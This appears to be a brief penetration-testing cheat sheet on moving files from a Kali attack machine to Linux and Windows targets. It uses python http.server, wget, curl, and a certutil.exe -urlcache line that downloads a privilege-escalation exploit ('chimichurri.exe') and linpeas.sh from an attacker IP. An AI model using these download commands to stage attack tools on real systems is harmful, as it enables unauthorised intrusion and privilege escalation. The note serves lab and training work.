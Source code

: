 # Usage

## Host a simple HTTP server on Kali  
in /root/  
mkdir transfer  
python3 -m http.server 80  

Copy a file into this /root/transfer/ directory: linpeas.sh

## Linux client to get files from HTTP server
wget http://\<Kali IP address>/\<filename>
  * example: wget http://192.168.57.5/linpeas.sh

## Windows client to get files from HTTP server
curl http://\<Kali IP address>/\<filename>
  * example: curl http://192.168.57.5/linpeas.sh

certutil.exe -urlcache -split -f "http://10.10.15.18/chimichurri.exe" chimi.exe
